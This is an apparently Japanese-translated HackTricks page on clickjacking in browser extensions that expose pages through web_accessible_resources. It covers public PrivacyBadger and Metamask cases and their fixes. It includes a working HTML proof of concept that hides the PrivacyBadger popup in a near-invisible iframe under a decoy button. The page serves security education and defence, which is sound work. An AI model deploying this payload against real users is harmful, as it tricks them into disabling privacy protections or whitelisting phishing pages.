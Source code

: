 # BrowExt - ClickJacking

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## 基本情報

このページでは、ブラウザ拡張機能のClickJacking脆弱性を悪用します。\
ClickJackingが何か分からない場合は、以下を確認してください：

{% content-ref url="../clickjacking.md" %}
[clickjacking.md](../clickjacking.md)
{% endcontent-ref %}

拡張機能には**`manifest.json`**ファイルが含まれており、そのJSONファイルには`web_accessible_resources`フィールドがあります。以下は[Chromeのドキュメント](https://developer.chrome.com/extensions/manifest/web\_accessible\_resources)に記載されている内容です：

> これらのリソースは、URL **`chrome-extension://[PACKAGE ID]/[PATH]`**を介してウェブページで利用可能になり、これは**`extension.getURL method`**を使用して生成できます。許可されたリソースは適切なCORSヘッダーで提供されるため、XHRなどのメカニズムを介して利用可能です。[1](https://blog.lizzie.io/clickjacking-privacy-badger.html#fn.1)

ブラウザ拡張機能の**`web_accessible_resources`**は、単にウェブを介してアクセス可能なだけでなく、拡張機能の固有の権限で動作します。これは、以下のことが可能であることを意味します：

* 拡張機能の状態を変更する
* 追加のリソースを読み込む
* 一定の範囲でブラウザと相互作用する

しかし、この機能はセキュリティリスクをもたらします。**`web_accessible_resources`**内のリソースに重要な機能がある場合、攻撃者はこのリソースを外部ウェブページに埋め込む可能性があります。このページを訪れる無防備なユーザーは、意図せずにこの埋め込まれたリソースをアクティブにするかもしれません。このようなアクティベーションは、拡張機能のリソースの権限と機能に応じて、意図しない結果を引き起こす可能性があります。

## PrivacyBadgerの例

拡張機能PrivacyBadgerでは、`skin/`ディレクトリが以下のように`web_accessible_resources`として宣言されていることに関連する脆弱性が特定されました（元の[ブログ投稿](https://blog.lizzie.io/clickjacking-privacy-badger.html)を確認してください）：
```json
"web_accessible_resources": [
"skin/*",
"icons/*"
]
```
この設定は潜在的なセキュリティ問題を引き起こしました。具体的には、ブラウザのPrivacyBadgerアイコンとのインタラクション時にレンダリングされる`skin/popup.html`ファイルが`iframe`内に埋め込まれる可能性があります。この埋め込みは、ユーザーを欺いて「このウェブサイトのPrivacyBadgerを無効にする」を誤ってクリックさせるために悪用される可能性があります。このような行動は、PrivacyBadgerの保護を無効にし、ユーザーを追跡の増加にさらすことで、ユーザーのプライバシーを侵害します。このエクスプロイトの視覚的デモは、[**https://blog.lizzie.io/clickjacking-privacy-badger/badger-fade.webm**](https://blog.lizzie.io/clickjacking-privacy-badger/badger-fade.webm)で提供されているClickJackingのビデオ例で見ることができます。

この脆弱性に対処するために、簡単な解決策が実施されました：`web_accessible_resources`のリストから`/skin/*`を削除しました。この変更により、`skin/`ディレクトリのコンテンツにウェブアクセス可能なリソースを通じてアクセスまたは操作できないようにすることで、リスクが効果的に軽減されました。

修正は簡単でした：**`web_accessible_resources`から`/skin/*`を削除する**。

### PoC
```html
<!--https://blog.lizzie.io/clickjacking-privacy-badger.html-->

<style>
iframe {
width: 430px;
height: 300px;
opacity: 0.01;
float: top;
position: absolute;
}

#stuff {
float: top;
position: absolute;
}

button {
float: top;
position: absolute;
top: 168px;
left: 100px;
}

</style>

<div id="stuff">
<h1>
Click the button
</h1>
<button id="button">
click me
</button>
</div>

<iframe src="chrome-extension://ablpimhddhnaldgkfbpafchflffallca/skin/popup.html">
</iframe>
```
## Metamaskの例

[**MetamaskにおけるClickJackingに関するブログ記事はこちらにあります**](https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9)。この場合、Metamaskは、アクセスに使用されるプロトコルが**`https:`**または**`http:`**であることを確認することで脆弱性を修正しました（例えば**`chrome:`**ではありません）：

<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

**Metamask拡張機能で修正された別のClickJacking**は、ユーザーが`“web_accessible_resources”: [“inpage.js”, “phishing.html”]`のためにフィッシングの疑いがあるページで**ホワイトリストに追加するためにクリック**できたことです。そのページはClickjackingに対して脆弱であったため、攻撃者は被害者が気づかずにホワイトリストに追加するためにクリックするように、何か普通のものを表示して悪用することができ、その後フィッシングページに戻ることができました。

## Steam Inventory Helperの例

ブラウザ拡張機能における**XSS**が**ClickJacking**脆弱性とどのように連鎖しているかを確認するには、以下のページをチェックしてください：

{% content-ref url="browext-xss-example.md" %}
[browext-xss-example.md](browext-xss-example.md)
{% endcontent-ref %}

## 参考文献

* [https://blog.lizzie.io/clickjacking-privacy-badger.html](https://blog.lizzie.io/clickjacking-privacy-badger.html)
* [https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9](https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9)

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
